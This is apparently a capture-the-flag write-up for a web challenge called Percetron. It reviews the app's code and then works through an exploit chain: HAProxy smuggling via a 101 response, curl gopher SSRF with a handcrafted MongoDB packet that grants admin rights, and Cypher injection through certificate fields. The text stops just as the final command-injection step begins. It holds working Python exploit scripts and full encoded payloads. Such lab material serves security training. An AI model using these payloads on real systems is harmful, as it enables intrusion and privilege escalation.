

        <font size="10">Percetron</font>

5<sup>th</sup> February 2024 / D24.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=red>Hard</font>

​Classification: Official

# [Synopsis](#synopsis)

- HTTP smuggling on haproxy by abusing web socket initiation response code to keep TCP open => Curl Gopher SSRF => Malicious MongoDB TCP packet causing privilege escalation => Cypher injection through malicious X509 certificates => Undocumented command injection in @steezcram/sevenzip library 

## Description

* Your faction's mission is to infiltrate and breach the heavily fortified servers of KORP's web application, known as "Percetron." This application stores sensitive information, including IP addresses and digital certificates, crucial for the city's infrastructure.

## Skills Required

- Understanding of Python and Flask
- Understanding of Haproxy and reverse proxies
- Good understanding of HTTP and TCP 
- Understanding of MongoDB and the mongowire protocol
- Understanding of X509 certificates
- Understanding of Neo4j and Cypher
- Understanding of command injections
- Ability to audit dependencies for uknown vulnurabilities

## Skills Learned

- How to abuse 101 response codes to cause HTTP smuggling
- Exploiting Curl with the gopher protocol to downgrade HTTP to TCP
- Creating a malicious mongowire packet from scratch
- Creating and parsing X509 certificates
- Abusing Cypher injections
- Escalating data injections to command injections

## Application Overview


Let's visit the url of the app and check it out.


We are greeted by a login page, and there is a link leading to the register page.


Let's register an account and login.


After logging in we see a dashboard contaning a network graph of hosts and certificates connected to each other, we also have the options to perform searches.


On the certificates page we see a table containing all stored certificates and their info.


On the hosts page we get a table with all stored hosts and their info. There is also an option to check if HTTPS is running on each IP.


There is also the about page that explains the service.

## Code review

Let's start by examining the `Dockerfile`.

```Dockerfile
FROM haproxy:2.3-alpine

# Install packages
RUN echo "http://dl-cdn.alpinelinux.org/alpine/v3.9/main" >> /etc/apk/repositories
RUN echo "http://dl-cdn.alpinelinux.org/alpine/v3.9/community" >> /etc/apk/repositories
RUN apk add --update --no-cache supervisor nodejs npm openjdk17-jre mongodb gcc g++ cargo make libffi-dev openssl-dev build-base netcat-openbsd yaml-cpp

# Install curl
ENV CURL_VERSION=7.70.0
RUN wget https://curl.haxx.se/download/curl-${CURL_VERSION}.tar.gz && tar xfz curl-${CURL_VERSION}.tar.gz \
    && cd curl-${CURL_VERSION}/ && ./configure --with-ssl \
    && make -j 16 && make install

# Setup Neo4j
ENV NEO4J_VERSION=5.13.0
RUN curl https://dist.neo4j.org/neo4j-community-${NEO4J_VERSION}-unix.tar.gz -o neo4j-community-${NEO4J_VERSION}-unix.tar.gz
RUN tar zxf neo4j-community-${NEO4J_VERSION}-unix.tar.gz
RUN mv neo4j-community-${NEO4J_VERSION} /opt/
RUN ln -s /opt/neo4j-community-${NEO4J_VERSION} /opt/neo4j
```

The `haproxy:2.3-alpine` image is selected and some dependencies are installed. Some interesting ones include `MongoDB`, curl (using outdated version 7.70.0) and Neo4j.

```Dockerfile

# Copy flag
COPY flag.txt /flag.txt

# Setup app
RUN mkdir -p /app

# Add application
WORKDIR /app
COPY challenge .

# Install dependencies
RUN npm install
RUN npm rebuild

# Setup supervisord
COPY conf/supervisord.conf /etc/supervisord.conf

# Setup HAProxy
COPY conf/haproxy.conf /usr/local/etc/haproxy/haproxy.cfg

# Expose the port node-js is reachable on
EXPOSE 1337

# Populate database and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```

Later the flag is copied to the root of the server, npm dependencies get installed, `haproxy` and `supervisor` config files are placed to the appropriate directories and `entrypoint.sh` is started.

```sh
#!/bin/sh

# Secure entrypoint
chmod 600 /entrypoint.sh

# Set script variables
NEO4J_PASS=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 32)
SESSION_SECRET=$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 32)

# Set environment variables
echo "SESSION_SECRET=$SESSION_SECRET" > /app/.env
echo "NEO4J_URI=bolt://127.0.0.1:7687" >> /app/.env
echo "NEO4J_USER=neo4j" >> /app/.env
echo "NEO4J_PASS=$NEO4J_PASS" >> /app/.env
echo "MONGODB_URL=mongodb://127.0.0.1:27017/percetron" >> /app/.env

# Set neo4j password
/opt/neo4j/bin/neo4j-admin dbms set-initial-password $NEO4J_PASS

# Change flag name
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt

# Create mongodb directory
mkdir /tmp/mongodb

# Run mongodb
mongod --bind_ip 0.0.0.0 --noauth --dbpath /tmp/mongodb/ &

until nc -z localhost 27017
do
    sleep 1
done

# Launch supervisord
/usr/bin/supervisord -c /etc/supervisord.conf
```

In here credentials for `Neo4j` and `MongoDB` are set up, random characters are inserted on the flag name and `MongoDB` is started alongside `supervisor`,

```
[supervisord]
user=root
nodaemon=true
logfile=/dev/null
logfile_maxbytes=0
pidfile=/run/supervisord.pid

[program:haproxy]
command=haproxy -f /usr/local/etc/haproxy/haproxy.cfg
directory=/app
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:neo4j]
command=/opt/neo4j/bin/neo4j start
directory=/app
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0

[program:express]
command=npm start
directory=/app
stdout_logfile=/dev/stdout
stdout_logfile_maxbytes=0
stderr_logfile=/dev/stderr
stderr_logfile_maxbytes=0
```

At `conf/supervisord.conf` we see that `haproxy`, `Neo4j` and the challenge application are started.

```
global
    log /dev/log local0
    log /dev/log local1 notice
    maxconn 4096
    user haproxy
    group haproxy
defaults
    mode http
    timeout connect 5000
    timeout client 10000
    timeout server 10000
frontend http-in
    bind *:1337
    default_backend forward_default
backend forward_default
    http-request deny if { path -i -m beg /healthcheck-dev }
    server s1 127.0.0.1:3000
```

The `conf/haproxy.conf` file reveals to us that haproxy acts as a reverse-proxy to port 3000 and all requests on the front-end to the path `/healthcheck-dev` are blocked.

```js
require("dotenv").config();

const path = require("path");
const express = require("express");
const session = require("express-session");
const mongoose = require("mongoose");

const Neo4jConnection = require("./util/neo4j");
const MongoDBConnection = require("./util/mongo");
const { migrate } = require("./util/generic");

const genericRoutes = require("./routes/generic");
const panelRoutes = require("./routes/panel");

const application = express();
const neo4j = new Neo4jConnection();
const mongodb = new MongoDBConnection();

application.use("/static", express.static(path.join(__dirname, "static")));

application.use(express.urlencoded({ extended: true }));
application.use(express.json());

application.use(
    session({
        secret: process.env.SESSION_SECRET,
        resave: true,
        saveUninitialized: true,
    })
);

application.set("view engine", "pug");

application.use(genericRoutes);
application.use(panelRoutes);

setTimeout(async () => {
    await mongoose.connect(process.env.MONGODB_URL);
    await migrate(neo4j, mongodb);
    await application.listen(3000, "0.0.0.0");
    console.log("Listening on port 3000");
}, 10000);
```

Opening up `challenge/index.js` shows us the main file of the web app. At the start some external dependencies like `express` and `mongoose` are imported alongside some internal dependencies like sone interfaces for the databases, generic utils and two route files. Then express is configured, the routes get registered and the `migrate` function is called before starting the server at port 3000.

Lets first have a look at the middleware used in the app.

```js
module.exports = async (req, res, next) => {
    if (!req.session.loggedin) {
        return res.redirect("/panel/login");
    }
    next();
};
```

We have `challenge/middleware/auth.js` which redirects to `/panel/login` if no `loggedin` value is set on the `session`.

```js
module.exports = async (req, res, next) => {
    if (!req.session.loggedin || req.session.permission != "administrator") {
        return res.status(401).send({message: "Not allowed"});
    }
    next();
};
```

And we also have `challenge/middleware/admin.js` which checks if the `permission` value of the `session` is set to `administrator` before deciding to forward the request or to return a response with `401` status.

Lets now have a look at the routes. We start from `challenge/routes/generic.js`.

```js
const axios = require("axios");
const express = require("express");
const router = express.Router();

const authMiddleware = require("../middleware/auth");
const { check, getUrlStatusCode } = require("../util/generic");

router.get("/", (req, res) => {
  res.redirect("/panel");
});
```

`axios` and `express` are imported before the `authMiddleware` and after it the `check` and `getUrlStatusCode` generic functions are also added. After the imports the route `/` is registered that simply redirects to `/panel`.

```js
router.get("/healthcheck", authMiddleware, (req, res) => {
  const targetUrl = req.query.url;

  if (!targetUrl) {
    return res.status(400).json({ message: "Mandatory URL not specified" });
  }

  if (!check(targetUrl)) {
    return res.status(403).json({ message: "Access to URL is denied" });
  }

  axios.get(targetUrl, { maxRedirects: 0, validateStatus: () => true, timeout: 40000 })
    .then(resp => {
      res.status(resp.status).send();
    })
    .catch(() => {
      res.status(500).send();
    });
});
```

On the `/healthcheck` endpoint the `authMiddleware` is used.

A target URL parameter is expected and a `400` status is return if it's not provided. The the provided URL is validated using the `check` function from `challenge/util/generic.js`.

```js
exports.check = (url) => {
  const parsed = new URL(url);

  if (isNaN(parseInt(parsed.port))) {
    return false;
  }

  if (parsed.port == "1337" || parsed.port == "3000") {
    return false;
  }

  if (parsed.pathname.toLowerCase().includes("healthcheck")) {
    return false;
  }

  const bad = ["localhost", "127", "0177", "000", "0x7", "0x0", "@0", "[::]", "0:0:0", "①②⑦"];
  if (bad.some(w => parsed.hostname.toLowerCase().includes(w))) {
    return false;
  }

  return true;
}
```

This function does a number of checks on the provided URL to make sure it is not coming from locally.

After this a request to the provided URL is made using `axios` and the reponse code is forwarded from that server to us. Keep in mind that this is the same endpoint used for the "check HTTPS" functionality from the hosts page we saw on the overview.

```js
router.get("/healthcheck-dev", async (req, res) => {
  let targetUrl = req.query.url;

  if (!targetUrl) {
    return res.status(400).json({ message: "Mandatory URL not specified" });
  }

  getUrlStatusCode(targetUrl)
    .then(statusCode => {
      res.status(statusCode).send();
    })
    .catch(() => {
      res.status(500).send();
    });
});
```

The `healthcheck-dev` endpoint serves the same functionality only it does not check if the URL points to localhost and uses the `getUrlStatusCode` from `challenge/util/generic.js` function instead of `axios`.

```js
exports.getUrlStatusCode = (url) => {
  return new Promise((resolve, reject) => {
    const curlArgs = ["-L", "-I", "-s", "-o", "/dev/null", "-w", "%{http_code}", url];
    
    execFile("curl", curlArgs, (error, stdout, stderr) => {
      if (error) {
        reject(error);
        return;
      }

      const statusCode = parseInt(stdout, 10);
      resolve(statusCode);
    });
  });
}
```

This function uses `curl` (7.70.0) under the hood to make requests and return the status code.

Now let's check out `challenge/routes/panel.js`.

```js
const fs = require("fs");
const path = require("path");
const sevenzip = require("@steezcram/sevenzip");
const express = require("express");
const router = express.Router();

const authMiddleware = require("../middleware/auth");
const adminMiddleware = require("../middleware/admin");
const { randomHex } = require("../util/generic");
const Neo4jConnection = require("../util/neo4j");
const MongoDBConnection = require("../util/mongo");

const data = fs.readFileSync("package.json", "utf8");
const packageJson = JSON.parse(data);
const version = packageJson.version;
```

On this one we have a lot more dependencies used.

We import `fs`, `path`, `@steezcram/sevenzip` and `express` from node_modules and `authMiddleware` + `adminMiddleware` middlewares. Also `randomHex` and `Neo4jConnection` + `MongoDBConnection` for interfacing with the databases. Also `package.json` is read in order to fetch the applications version.

```js
router.get("/panel/register", async (req, res) => {
    res.render("register", {version: version});
});

router.post("/panel/register", async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    const db = new MongoDBConnection();

    if (!(username && password)) return res.render("error", {message: "Missing parameters"});
    if (!(await db.registerUser(username, password, "user")))
        return res.render("error", {message: "Could not register user"});

    res.redirect("/panel/login");
});

router.get("/panel/login", async (req, res) => {
    res.render("login", {version: version});
});
```

The routes above are responsible for serving the `/panel/register` page and registering a new user with the provided `username` and `password`, and with the hardcoded permission `user`.

```js
router.post("/panel/login", async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;

    if (!(username && password)) return res.render("error", {message: "Missing parameters"});

    const db = new MongoDBConnection();
    if (!(await db.validateUser(username, password)))
        return res.render("error", {message: "Invalid user or password"});

    const userData = await db.getUserData(username);

    req.session.loggedin = true;
    req.session.username = username;
    req.session.permission = userData.permission;

    res.redirect("/panel");
});

router.get("/panel/logout", async (req, res) => {
    req.session.destroy();
    res.redirect("/panel/login");
});
```

The routes above are responsible for serving the `/panel/login` page and logging in a user with the provided `username` and `password`, then some values are set to the visitors `session` object, `loggedin` is set to `true`, `username` is set to the provided username and `permission` uses the appropriate user permission fetched from `MongoDB`.


```js
router.get("/panel", authMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const certificates = await db.getAllCertificatesWithConnections();
    res.render("panel", {userData: req.session, version: version, connections: JSON.stringify(certificates), hosts: certificates.length});
});

router.post("/panel/search", authMiddleware, async (req, res) => {
    let searchTerm = req.body.searchTerm;
    let field = req.body.field;
    if (!(searchTerm && field)) return res.render("error", {message: "Missing parameters"});
    
    const db = new Neo4jConnection();
    const certificates = await db.searchCertificateConnections(field, searchTerm);
    res.render("panel", {userData: req.session, version: version, connections: JSON.stringify(certificates), hosts: certificates.length});
});
```

On the `/panel` route all certificates are fetched form `Neo4j` and are rendered as a network graph on the front-end.

On the `/panel/search` they are filtered based on a term and field provided.

Also the `authMiddleware` is used, so in order to access them you must have logged in.

```js
router.get("/panel/certificates", authMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const certificates = await db.getAllCertificates();
    res.render("certs", {userData: req.session, version: version, certificates: certificates});
});

router.get("/panel/hosts", authMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const hosts = await db.getAllHosts();
    res.render("hosts", {userData: req.session, version: version, hosts: hosts});
});

router.get("/panel/about", authMiddleware, async (req, res) => {
    res.render("about", {userData: req.session, version: version});
});
```

The above routes correspond to the pages mentioned above (certificates, hosts and about pages).

```js
router.get("/panel/management", adminMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const certificates = await db.getAllCertificates();
    res.render("management", {userData: req.session, version: version, certificates: certificates});
});
```

This is the `/panel/management` endpoint that is only accessible to admin users.

```js
router.post("/panel/management/addcert", adminMiddleware, async (req, res) => {
    const pem = req.body.pem;
    const pubKey = req.body.pubKey;
    const privKey = req.body.privKey;
    
    if (!(pem && pubKey && privKey)) return res.render("error", {message: "Missing parameters"});

    const db = new Neo4jConnection();
    const certCreated = await db.addCertificate({"cert": pem, "pubKey": pubKey, "privKey": privKey});

    if (!certCreated) {
        return res.render("error", {message: "Could not add certificate"});
    }

    res.redirect("/panel/management");
});
```

There is an endpoint for admins `/panel/management/addcert` that is used for adding new certificates by providing `pem`, `pubkey` and `privkey`, those fields are stored to `Neo4j` using the `addCertificate` method.

```js
router.get("/panel/management/dl-certs", adminMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const certificates = await db.getAllCertificates();

    let dirsArray = [];
    for (let i = 0; i < certificates.length; i++) {
        const cert = certificates[i];
        const filename = cert.file_name;
        const absolutePath = path.resolve(__dirname, filename);
        const fileDirectory = path.dirname(absolutePath);
        dirsArray.push(fileDirectory);
    }
    
    dirsArray = [...new Set(dirsArray)];
    const zipArray = [];
    let madeError = false;
    
    for (let i = 0; i < dirsArray.length; i++) {
        if (madeError) break;

        const dir = dirsArray[i];
        const zipName = "/tmp/" + randomHex(16) + ".zip";

        sevenzip.compress("zip", {dir: dir, destination: zipName, is64: true}, () => {}).catch(() => {
            madeError = true;
        })
       
        zipArray.push(zipName);  
    }

    if (madeError) {
        res.render("error", {message: "Error compressing files"});
    } else {
        res.send(zipArray);
    }
});
```

And finally we have the `/panel/management/dl-certs` admin endpoint that gets all the certificates stored in the filesystem, attempts to compress them using the `@steezcram/sevenzip` library and returns the name of the compressed files.

## Summary

We have a web application that is used for storing ip's and x509 certificates in a graph db using `Neo4j`, it runs on `nodejs` with `express` on port `3000` and is served behind a `haproxy` instance on port `1337`, also `MongoDB` is used only for storing user credentials.

It differentiates between normal and administrator users using middleware.

As a normal user you can view and search certificates.

As an administrator user you can add new certificates and bulk download existing ones.

## Exploitation

### Abusing websocket 101 response to cause request smuggling

In order to reach `/healthcheck-dev` we need to bypass the ACL defined at `conf/haproxy.conf`. To do that we need to reach it via a request coming from localhost.

A obvious path to this could be bypassing the `check` function used at `/healthcheck` but that is not possible.

An interesting research presented at Hacktivity 2019 by Mikhail Egorov [shows possible way to achieve request smuggling](https://github.com/0ang3el/websocket-smuggle?tab=readme-ov-file#22-scenario-2).



The researcher explains that on certain reverse proxies an exploit exists where if a request is made and the response code is a user controlled 101, the proxy can be tricked into keeping the TCP connection open as it treats it as a websocket connection due to the 101 repsonse, since the TCP connection is not closed the server listens for and forwards more arbitrary requests that are provided in the stream.

Looks familiar to our web app given we also have control of response codes at `/healthcheck`, if we provide the URL of a server we control.


Since we can send any request from haproxy, we can completely bypass the defined ACL by sending a request directly the web app at port 1337.

Haproxy 2.3 is not refrenced in the presentation as vulnurable but after some playing around we can find that it is.

```py
import socket

controlled_server = "http://my-server.com"
sid = "sid_session_cookie_after_login"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, int(PORT)))

req1 = f"GET /healthcheck?url={controlled_server}/101 HTTP/1.1\r\nHost: 127.0.0.1:1337\r\nCookie: {sid}\r\n\r\n"
s.sendall(req1.encode())
s.recv(4096)

req2 = f"GET /healthcheck-dev?url={controlled_server}/callback HTTP/1.1\r\nHost: 127.0.0.1:1337\r\nCookie: {sid}\r\n\r\n"
s.sendall(req2.encode())
s.recv(4096)

s.shutdown(socket.SHUT_RDWR)
```

The code above opens a TCP conncetion to haproxy and streams our first request which provides a URL that points on an endpoint on our server that returns 101 as the response code, this does not close the connetion so right after we stream our second request which provides a URL that points to our callback endpoint.

If everything is done correctly we recieve a request with `User-Agent` set to `curl/7.70.0`, this confirms that the `/healthcheck-dev` endpoint was used to make it and that we successfuly bypassed the ACL.

### Downgrading HTTP by abusing curl gopher:// protocol

Now that we have access to `/healthcheck-dev` via the smuggling we can use curl to perform SSRF. But there isn't any obvious obvious HTTP endpoint to hit.

There are documented techniques using the `gopher://` protocol with curl to craft malious TCP packets, [examples](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#gopher).

Seems like our case since we have multiple other services running.

We could try reaching `Neo4j` but that is not possible since the [bolt](https://neo4j.com/docs/bolt/current/bolt/) protocol performs a handshake and in the case of this attack we can only send one packet without keeping the connection open for two-way communication.

Our next target is `MongoDB`, this kind of attack has been rarely documented but creating a [mongowire](https://www.mongodb.com/docs/manual/reference/mongodb-wire-protocol/) is possible on curl instances before version `7.70.0` and only if `MongoDB` requires no auth which is default behaviour if the conncetion comes from localhost which it would in our case. This has been seen on ctf challenges like `unfinished` from DiceCTF 2023.

Let's to create our packet.

```py
import struct

def pack_size(section):
    return list(struct.pack("<i", section))


def construct_query(OP_MSG, document):
    message_length = len(OP_MSG) + 4
    document_length = len(document) + 4

    total_size = pack_size(message_length + document_length)
    return "".join(map(lambda x: "{:02x}".format(x), total_size + OP_MSG + pack_size(document_length) + document))


def encode(data):
	packet = ""
	for i in range(int(len(data) / 2)):
		packet += "%" + data[2*i:2*(i+1)]
	return packet
```

These helper functions are for returning the packed size of a string, constructing the final query and URL-encoding.

```py
username = "lean"

OP_MSG = [
    0x00, 0x00, 0x00, 0x00,                     # request id)
    0x00, 0x00, 0x00, 0x00,                     # responseto
    0xDD, 0x07, 0x00, 0x00,                     # OP_MSG
    0x00, 0x00, 0x00, 0x00,                     # message flags
    0x00                                        # body kind
]

payload = f"""db.runCommand({{update:\"users\",updates:[{{q:{{\"username\":\"{username}\"}},u:{{$set:{{\"permission\":\"administrator\"}}}}}}]}})"""

document = [
    # 0x00, 0x00, 0x00, 0x00,                   # total document body size
    0x0d,                                       # type is javascript code 
    ] + list(bytearray(b"$eval")) + [           # element
    0x00,                                       # end
    ] + pack_size(len(payload)+1) + [           # length
    ] + list(bytearray(payload.encode())) + [   # value
    0x00, 
    0x04                                        # type is array
    ] + list(bytearray(b"args")) + [            # element
    0x00,                                       # end
    0x05, 0x00, 0x00, 0x00,                     # length
    0x00,                                       # empty
    0x03                                        # type is document
    ] + list(bytearray(b"lsid")) + [            # element
    0x00,                                       # end
    0x1e, 0x00, 0x00, 0x00,                     # length
    0x05,                                       # type is binary
    ] + list(bytearray(b"id")) + [              # element
    0x00,                                       # end
    0x10, 0x00, 0x00, 0x00,                     # length
    0x04, 
    0x1d, 0x62, 0x89, 0x5c, 0x03, 0x55, 
    0x4d, 0x4e, 0xb5, 0xe1, 0xe6, 0xa3,
    0xeb, 0x0b, 0x82, 0xff, 
    0x00,                                       # end
    0x02,                                       # type is string
    ] + list(bytearray(b"$db")) + [             # element
    0x00,                                       # end
    0x0a, 0x00, 0x00, 0x00,                     # length
    ] + list(bytearray(b"percetron")) + [ 
    0x00,                                       # end
    0x03                                        # type is document
    ] + list(bytearray(b"$readPreference")) + [
    0x00,                                       # end
    0x20, 0x00, 0x00, 0x00,                     # length 
    0x02,                                       # type is string
    ] + list(bytearray(b"mode")) + [
    0x00,                                       # end
    0x11, 0x00, 0x00, 0x00,                     # length
    ] + list(bytearray(b"primaryPreferred")) + [# value
    0x00, 0x00, 0x00
]

print(encode(construct_query(OP_MSG, document)))
```

The code above is used to create a url encoded mongowire packet.

It creates the packet by first defining the [OP_MSG](https://www.mongodb.com/docs/manual/reference/mongodb-wire-protocol/#standard-message-header) code that is used to tell `MongoDB` the type of operation.


Then we tell it to `$eval` and we provide our mongo query that changes the account with username `lean` to an `administrator`.

After this we add some required metadata like the collection name and prefrences.

Payload in hex:
```
020100000000000000000000dd0700000000000000ed0000000d246576616c006a00000064622e72756e436f6d6d616e64287b7570646174653a227573657273222c757064617465733a5b7b713a7b22757365726e616d65223a226c65616e227d2c753a7b247365743a7b227065726d697373696f6e223a2261646d696e6973747261746f72227d7d7d5d7d29000461726773000500000000036c736964001e0000000569640010000000041d62895c03554d4eb5e1e6a3eb0b82ff0002246462000a000000706572636574726f6e00032472656164507265666572656e63650020000000026d6f646500110000007072696d617279507265666572726564000000
```

Payload URL-encoded:
```
%02%01%00%00%00%00%00%00%00%00%00%00%dd%07%00%00%00%00%00%00%00%ed%00%00%00%0d%24%65%76%61%6c%00%6a%00%00%00%64%62%2e%72%75%6e%43%6f%6d%6d%61%6e%64%28%7b%75%70%64%61%74%65%3a%22%75%73%65%72%73%22%2c%75%70%64%61%74%65%73%3a%5b%7b%71%3a%7b%22%75%73%65%72%6e%61%6d%65%22%3a%22%6c%65%61%6e%22%7d%2c%75%3a%7b%24%73%65%74%3a%7b%22%70%65%72%6d%69%73%73%69%6f%6e%22%3a%22%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%22%7d%7d%7d%5d%7d%29%00%04%61%72%67%73%00%05%00%00%00%00%03%6c%73%69%64%00%1e%00%00%00%05%69%64%00%10%00%00%00%04%1d%62%89%5c%03%55%4d%4e%b5%e1%e6%a3%eb%0b%82%ff%00%02%24%64%62%00%0a%00%00%00%70%65%72%63%65%74%72%6f%6e%00%03%24%72%65%61%64%50%72%65%66%65%72%65%6e%63%65%00%20%00%00%00%02%6d%6f%64%65%00%11%00%00%00%70%72%69%6d%61%72%79%50%72%65%66%65%72%72%65%64%00%00%00
```

Now we can pass this to our smuggling payload.

```py
import socket

controlled_server = "http://my-server.com"
sid = "sid_session_cookie_after_login"

mongo_packet = "%02%01%00%00%00%00%00%00%00%00%00%00%dd%07%00%00%00%00%00%00%00%ed%00%00%00%0d%24%65%76%61%6c%00%6a%00%00%00%64%62%2e%72%75%6e%43%6f%6d%6d%61%6e%64%28%7b%75%70%64%61%74%65%3a%22%75%73%65%72%73%22%2c%75%70%64%61%74%65%73%3a%5b%7b%71%3a%7b%22%75%73%65%72%6e%61%6d%65%22%3a%22%6c%65%61%6e%22%7d%2c%75%3a%7b%24%73%65%74%3a%7b%22%70%65%72%6d%69%73%73%69%6f%6e%22%3a%22%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%22%7d%7d%7d%5d%7d%29%00%04%61%72%67%73%00%05%00%00%00%00%03%6c%73%69%64%00%1e%00%00%00%05%69%64%00%10%00%00%00%04%1d%62%89%5c%03%55%4d%4e%b5%e1%e6%a3%eb%0b%82%ff%00%02%24%64%62%00%0a%00%00%00%70%65%72%63%65%74%72%6f%6e%00%03%24%72%65%61%64%50%72%65%66%65%72%65%6e%63%65%00%20%00%00%00%02%6d%6f%64%65%00%11%00%00%00%70%72%69%6d%61%72%79%50%72%65%66%65%72%72%65%64%00%00%00"
ssrf = "gopher://127.0.0.1:27017/_" + mongo_packet

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, int(PORT)))

req1 = f"GET /healthcheck?url={controlled_server}/101 HTTP/1.1\r\nHost: 127.0.0.1:1337\r\nCookie: {sid}\r\n\r\n"
s.sendall(req1.encode())
s.recv(4096)

req2 = f"GET /healthcheck-dev?url={ssrf} HTTP/1.1\r\nHost: 127.0.0.1:1337\r\nCookie: {sid}\r\n\r\n"
s.sendall(req2.encode())
s.recv(4096)

s.shutdown(socket.SHUT_RDWR)
```

This should escalate the privileges of user `lean`, so now after logging in we find ourselves as administrator.


### Cypher injection via X509 certificates

Now that we are admin we have access to more of the web app's functionalty.


We are able to view the management area.

One thing we can do here is add certifcates.


The endpoint handling this function is `/panel/management/addcert`.

```js
async addCertificate(cert) {
    const certPath = path.join(this.certDir, randomHex(10) + ".cert");
    const certInfo = parseCert(cert.cert);

    if (!certInfo) {
        return false;
    }

    const insertCertQuery = `
        CREATE (:Certificate {
            common_name: '${certInfo.issuer.commonName}',
            file_name: '${certPath}',
            org_name: '${certInfo.issuer.organizationName}',
            locality_name: '${certInfo.issuer.localityName}',
            state_name: '${certInfo.issuer.stateOrProvinceName}',
            country_name: '${certInfo.issuer.countryName}'
        });
    `;

    try {
        await this.runQuery(insertCertQuery);
        fs.writeFileSync(certPath, cert.cert);
        return true;
    } catch (error) {
        return false;
    }
}
```

The `addCertificate` method is used to first parse the provided cert, then insert it as a node in `Neo4j` and then write it into a file on the server.

It is easy to notice that the query is not sanitized, but is it user-controlled?

```js
exports.parseCert = (certPem) => {
    try {
        const cert = forge.pki.certificateFromPem(certPem);

        const subject = cert.subject.attributes.reduce((acc, attr) => {
            acc[attr.name] = attr.value;
            return acc;
        }, {});

        const issuer = cert.issuer.attributes.reduce((acc, attr) => {
            acc[attr.name] = attr.value;
            return acc;
        }, {});

        const validFrom = cert.validity.notBefore;
        const validTo = cert.validity.notAfter;

        return {
            subject,
            issuer,
            validFrom,
            validTo,
        };
    } catch (error) {
        return false;
    }
}
```

By having a look at `challenge/util/x509.js` `parseCert` we can confirm that it is, as long as we provide our payload inside valid x509 certificate metadata.

```py
def generate_cert(domain, org, locality, state, country):
    private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048,
        backend=default_backend()
    )

    public_key = private_key.public_key()

    subject = x509.Name([
        x509.NameAttribute(x509.NameOID.COUNTRY_NAME, country),
        x509.NameAttribute(x509.NameOID.STATE_OR_PROVINCE_NAME, state),
        x509.NameAttribute(x509.NameOID.LOCALITY_NAME, locality),
        x509.NameAttribute(x509.NameOID.ORGANIZATION_NAME, org),
        x509.NameAttribute(x509.NameOID.COMMON_NAME, domain),
    ])

    builder = x509.CertificateBuilder()
    builder = builder.subject_name(subject)
    builder = builder.issuer_name(subject)
    builder = builder.public_key(public_key)
    builder = builder.serial_number(x509.random_serial_number())
    builder = builder.not_valid_before(datetime.utcnow())
    builder = builder.not_valid_after(datetime.utcnow() + timedelta(days=365))

    cert = builder.sign(
        private_key=private_key,
        algorithm=hashes.SHA256(),
        backend=default_backend()
    )

    private_key_pem = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.TraditionalOpenSSL,
        encryption_algorithm=serialization.NoEncryption()
    ).decode("utf-8")

    public_key_pem = public_key.public_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PublicFormat.SubjectPublicKeyInfo
    ).decode("utf-8")

    cert_pem = cert.public_bytes(
        encoding=serialization.Encoding.PEM
    ).decode("utf-8")

    return {
        "privKey": private_key_pem,
        "pubKey": public_key_pem,
        "pem": cert_pem
    }
```

This function can be used to create a valid certificate containing our provided metadata fields.

### Discovering a command injection on @steezcram/sevenzip

Now that we have confirmed our cypher injection, there isn't reallt much to do, no useful data we can extract from the database and we could try using the `Neo4j` SSRF technique but we already have a strong SSRF from the previous attacks.

```js
router.get("/panel/management/dl-certs", adminMiddleware, async (req, res) => {
    const db = new Neo4jConnection();
    const certificates = await db.getAllCertificates();

    let dirsArray = [];
    for (let i = 0; i < certificates.length; i++) {
        const cert = certificates[i];
        const filename = cert.file_name;
        const absolutePath = path.resolve(__dirname, filename);
        const fileDirectory = path.dirname(absolutePath);
